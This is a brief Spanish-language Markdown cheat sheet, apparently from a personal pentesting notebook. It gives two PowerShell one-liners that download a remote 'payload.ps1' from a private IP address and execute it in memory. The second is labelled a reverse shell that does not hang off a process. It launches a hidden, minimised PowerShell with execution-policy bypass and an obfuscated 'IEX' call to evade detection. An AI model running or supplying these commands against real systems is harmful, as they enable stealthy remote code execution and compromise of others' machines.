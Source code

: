 ```yaml
---
category: Uncategorized
tags: []
---
```


## Descargar y ejecutar desde powershell

```cmd
IEX(New-Object Net.WebClient).DownloadString('http://192.168.5.126/payload.ps1')
```



## Reverse shell que no cuelgue de un proceso

```cmd
cmd /C START /MIN powershell -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c "I'E'X(New-Object Net.WebClient).DownloadString('http://192.168.5.126/payload.ps1')"
```








